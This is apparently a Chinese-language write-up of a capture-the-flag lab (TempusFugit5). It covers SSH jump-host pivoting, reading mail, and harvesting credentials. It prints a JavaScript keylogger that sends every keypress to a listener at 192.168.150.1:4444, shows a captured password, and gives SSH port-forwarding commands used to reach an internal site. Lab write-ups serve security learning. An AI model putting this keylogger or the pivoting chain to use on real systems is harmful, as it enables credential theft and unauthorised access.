

#### 这个因该是个用户名字,试一下



### 连接成功了,不过这个是台跳板机,说明这个用户是存在的,靶机设计这样的,断路了.

##### 回到刚才的信息收集每次登录staff这个页面,都会换一个员工连接这个192.168.150.1





#### 这个ip应该是内网的一台机器吧,我们可以试一下用ssh的 -J 参数连接通过这台跳板机连接到这台机器试试,不能直接ssh连接192.168.150.1这台机器,因为他是内网的ip,只能用ssh -J这个功能让我们通过跳板机器连接到内网这台机器,这是跳板机器的流量转发



# 没进去,ssh的很多交互都会一开始不那么顺畅,解决的思维都是加上-vv参数看执行的详细过程

### 加个-vv参数,看连接详细过程

```bash
ssh -J ctorres@192.168.108.129:2222 -i id_rsa ctorres@192.168.150.1 -vv
```



### 其实连接已经建立了



#### 上面可以看出她在找私钥,但是一直找不到,我的私钥放在家目录



### 上面这个这两个日志真相了

### 攻击机在连接跳板机的时候根本没有指定私钥-i id_rsa



### 从这里也可以看出连跳板机都没有连接进去

### 那只好写完ssh的代理的全命令了,用-J参数他会把密钥的参数去掉,不知道为啥,

```bash
ssh -o "ProxyCommand=ssh -W %h:%p -p2222 ctorres@跳板机" ctorres@目标机
```

## 一、为什么 `-J` 不带 `-i`

因为**命令行里只有一个 `-i`，它按“最终目标”来解析。**

你写：

bash

ssh -J 跳板机 -i id_rsa 目标机

SSH 解析时，把 `-i id_rsa` 归到**目标机**这一侧。跳板机那一侧，它**没有额外的 `-i` 可继承**，所以只用默认密钥。

这是 `-J` 的设计：**它只管“跳”，不管“跳板机用什么钥匙”。**

---

## 二、它为什么这么设计

因为 `-J` 出生晚（OpenSSH 7.3，2016 年），当时的目标是**简化 `ProxyCommand` 的写法**。

它假设：

- 跳板机用**默认密钥**（`~/.ssh/id_rsa` 或 `id_ed25519`）

- 目标机用**你指定的 `-i`**

这个假设**在很多情况下成立**——大多数人跳板机和目标机都用同一把默认密钥。

## 其实也可以把私钥放在默认的~/用户名/.ssh这个目录下,

#### 但是我们把私钥放在了~/用户名  这个目录下,所以去连接跳板机的时候找不到私钥



#### 登录进去了😃😄



#### 也提示我们有一个邮件,去看看



```
8b65b3ce27264a757c4a86571a9786217d855789028aa40d84cfc980adeb71de8bb1e75d882fec76fdcc3750d28e8245889d603d11345087e85d2c040baff6ae
```

#### 不知道是啥,下面是邮件内容

```
ctorres@TempusFugit5:~$ cat sent
From ctorres@TempusFugit5.mofo.org Mon Feb 24 18:20:51 2020
Date: Mon, 24 Feb 2020 18:20:51 +0100
From: Clee Torres <ctorres@TempusFugit5.mofo.org>
To: Hugh Janus <hjanus@TempusFugit5.mofo.org>
Subject: Re: Sudo right
Message-ID: <20200224172051.GA2947@TempusFugit5.mofo.org>
References: <20200224171915.GA2797@TempusFugit5.mofo.org>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Disposition: inline
In-Reply-To: <20200224171915.GA2797@TempusFugit5.mofo.org>
User-Agent: Mutt/1.10.1 (2018-07-13)
Status: RO
Content-Length: 357
Lines: 16

Dear Hugh,

No, I need my sudo to install the Snap App, so please don't.

Clee

On Mon, Feb 24, 2020 at 06:19:15PM +0100, Hugh Janus wrote:
> Dear Clee,
>
> Due to all the vulnerabilities in sudo, I will have to shut it down and uninstall it tomorrow.
> So please finish all you tasks so we can work safely tomorrow.
>
> Regards,
>
> Hugh
> System Admin

From ctorres@TempusFugit5.mofo.org Mon Feb 24 18:24:46 2020
Date: Mon, 24 Feb 2020 18:24:46 +0100
From: Clee Torres <ctorres@TempusFugit5.mofo.org>
To: Hugh Janus <hjanus@TempusFugit5.mofo.org>
Cc: "hange-folder>?" <toggle-mailboxes@TempusFugit5.mofo.org>
Subject: Re: Sudo right
```

##### 说白就是ctorres这个用户向另一个人申请sudo权限来干活,然后对方给他sudo权限了,但是在第二天那个人就会卸载sudo权限

### 所以ctorres这个用户可能有sudo权限,不过需要密码


#### 从邮件里可以看出这个客户端的邮件软件是mutt,服务端应该也有mutt这个软件



#### 输入mutt在终端,然后就进来了



##### 这个邮件说了一句payload被安装了,应该是被安装到某个网站上了,或者本地服务器某个位置,我们先看网站,去/etc/hosts看域名解析





从这封邮件看出pass和payload安装,去pass.mofo.org看一下

##### 全是内网的ip,只能在目标上用curl看了,文本有些长,用less

```bash
curl -s pass.mofo.org | less
```



##### 进来第一页就直接看到了payload

浏览器把 `onkeypress` 设计成**“回调属性”**：

- 你给它一个函数

- 它在特定事件发生时，自动执行这个函数

这就是**事件驱动**：

> 不是你去一直盯着“有没有按键”，  
> 而是浏览器帮你盯，**按键发生时，它来调用你给的函数。**

#### 原版代码

```javascript
// 第一步：定义一个函数，专门处理按键
function logKey(k) {
 var url = 'http://192.168.150.1:4444/keylog.php?key=' + k.which;
 var img = new Image();
 img.src = url;
} 
// 第二步：把函数挂到按键事件上
document.onkeypress = logKey;
```




# 这个网卡可以推测出网络拓扑结构

## 全程只有一台物理主机,192.168.150.1是主机处于docekr的内网用的ip,本质nat模式

### 可以推测出目标只允许和这个docker网卡处于同一个内网的ip登录,也就解释了为啥设置跳板机才能登录这台靶机



### 没有这个文件,没有文件源码,也不知道传会来的键盘输入保存在哪里,也不知道这个请求日志会放在哪里,也在本地找不到

### 这台靶机要有浏览pass.mofo.org的用户的键盘输入,一般就是放个智能机器人一直在浏览这个网站里敲键盘,就像刚才我们盲打xss,后台能查看邮件内容,也是一个智能机器人在有请求发来的时候就在浏览器打开消息来看的,以至于让我们的js payload能执行

#### 所以现在我们要开启一个web服务,绑定在192.168.150.1:4444上接收

#### 那个机器人传回来的键盘输入

#### 等了30秒之后,收到响应了



#### 看key字段上的数字,就是键盘输入了,等久一点,把输入接收完,不过是ASCII码,让ai提取出来然后转码,提取后结果

```bash
hjanusisHi5CmhKNl9Tr0vVB
```



#### hjanus这个是用户名字

#### 这个因该是个密码isHi5CmhKNl9Tr0vVB

### 因为这个密码是hjanus这个用户在pass.mofo.org这个网站输入的吗,这应该是个网站后台登录界面,

### 192.168.150.15    pass.mofo.org

### ##### 我们现在要访问这个内网的网站,但是只有命令行控制这台机器,没有web,所以做一下ssh本地端口转发,

```bash
ssh -o "ProxyCommand=ssh -i id_rsa -W %h:%p -p2222 ctorres@192.168.108.129" -N -L 91:192.150.15:80 -i id_rsa ctorres@192.168.150.1
```



#### 这里在我的电脑防火墙没有放行本地的91端口报错



## 做个端口放行



#### 放行了还Permission denied,那就直接sudo上root执行命令


##### 本地访问127.0.0.1:91


## 进来后发现有个敏感消息


#### 无敌了😃😄😄😄


#### 执行这个脚本就能拿到flag啦


## 游戏结束
